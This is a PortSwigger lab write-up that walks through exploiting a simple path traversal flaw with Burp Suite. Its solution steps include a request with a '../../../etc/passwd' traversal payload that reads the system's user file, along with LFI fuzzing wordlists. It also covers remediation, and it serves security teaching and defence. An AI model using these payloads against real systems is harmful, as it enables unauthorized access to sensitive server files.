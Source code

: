 # File Path Traversal (Portswigger Lab)

## File Inclusion Vulnerabilities - Lab Analysis

### **Lab: File Path Traversal - Simple Case**

#### **Lab URL**:

[https://portswigger.net/web-security/file-path-traversal/lab-simple](https://portswigger.net/web-security/file-path-traversal/lab-simple)

#### **Objective**

The goal of this lab is to exploit a **Path Traversal vulnerability** to retrieve the contents of the `/etc/passwd` file. This exercise demonstrates how insecure handling of file paths in a web application can be leveraged to gain unauthorized access to sensitive system files.

#### **Understanding the Vulnerability**

* The web application dynamically includes files based on user input but fails to properly validate or sanitize the `filename` parameter.
* This oversight allows an attacker to manipulate the file path, using directory traversal sequences (`../`) to access restricted files.
* In this lab, we will use **Burp Suite** to analyze and manipulate HTTP requests, leveraging path traversal techniques to read sensitive files from the server.

***

### **Step-by-Step Solution**

#### **Step 1: Generate Traffic**

* Navigate to the lab and interact with the web application to observe how image files are retrieved.
*   Identify a GET request similar to the following:

    ```plaintext
    GET /images?filename=67.png HTTP/1.1
    Host: target-website.com
    ```
* The `filename` parameter dynamically specifies which image file is loaded.

***

#### **Step 2: Intercept and Modify the Request**

* Open **Burp Suite** and enable the **Intercept** feature.
* Capture the request containing the `filename` parameter.
*   Modify the `filename` parameter to attempt directory traversal:

    ```plaintext
    GET /images?filename=../../../etc/passwd HTTP/1.1
    Host: target-website.com
    ```
* Forward the modified request to the server and observe the response.

***

#### **Step 3: Verify Successful Exploitation**

*   If successful, the server will return the contents of `/etc/passwd`, which contains system user information:

    ```plaintext
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ```
* This confirms that the application is vulnerable to **Path Traversal**, as it allows unauthorized access to system files.

***

### **Alternative Approach: Automating with Wordlists**

For more advanced testing, security professionals often use predefined wordlists to identify vulnerable file inclusion points. In a real-world scenario:

1.  **Locate LFI Wordlists**:

    ```bash
    find /usr/share/seclists -iname "*lfi*"
    ```
2. **Use Burp Suite Intruder to Test Multiple Payloads**:
   *   Load a payload list such as:

       ```plaintext
       /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
       ```
   * Automate the injection of directory traversal payloads to identify exploitable endpoints.

***

### **Why This is an Example of Path Traversal**

#### **Characteristics of the Vulnerability**

1. **Lack of Input Validation**: The application allows user-controlled input in file paths without sanitization.
2. **Use of Dynamic File Inclusion**: The `filename` parameter is used directly in the file retrieval process, making it susceptible to manipulation.
3. **Exploitation via Directory Traversal Sequences**: The attacker can navigate the server’s directory structure using `../` to access restricted files.

#### **Security Implications**

* **Information Disclosure**: Exposing system files like `/etc/passwd` can help attackers enumerate valid usernames, which may be leveraged for further attacks (e.g., brute-force login attempts).
* **Potential Remote Code Execution**: If an application allows **file write access**, an attacker might escalate from reading files to executing arbitrary scripts.

***

### **Remediation Strategies**

1. **Sanitize User Input**
   * Implement strict validation for file paths, restricting input to expected values.
   * Use an allowlist approach to limit acceptable filenames.
2. **Restrict File Access**
   * Ensure the application can only access files within designated directories.
   * Use security mechanisms like `chroot` or `open_basedir` to sandbox file operations.
3. **Monitor and Log Suspicious Activity**
   * Implement logging for unauthorized access attempts.
   * Set up alerts for unusual file access patterns to detect exploitation attempts.
4. **Use Secure File Inclusion Methods**
   * Instead of dynamically including files based on user input, hardcode safe file paths where possible.
   * Disable directory traversal sequences by properly resolving paths before file inclusion.

***

### **Conclusion**

This lab demonstrates how insecure file inclusion mechanisms lead to **Path Traversal vulnerabilities**, enabling unauthorized access to sensitive system files. Proper input validation, directory access restrictions, and security monitoring are critical to mitigating these risks. Organizations should regularly perform security assessments to detect and remediate such vulnerabilities before attackers exploit them.
